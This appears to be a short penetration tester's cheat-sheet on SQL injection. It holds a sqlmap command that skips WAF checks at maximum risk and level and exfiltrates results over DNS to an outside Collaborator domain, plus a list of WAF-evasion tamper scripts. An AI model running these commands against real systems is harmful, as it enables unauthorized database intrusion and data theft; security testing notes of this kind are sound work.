 # SQLI

Make sure SQLMAP DNS Collaborator extension is still installed (testing)

* Cryptocat recommends to avoid using `-r`option and to just use CLI

```bash
sudo sqlmap --skip-waf --risk 3 --level 3 -r request.item -o --batch --dns-domain=laz3k1ymu2kc0idl9tumx345nwtnhf54.oastify.com
```

Tamper scripts general (Jhaddix)

```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```
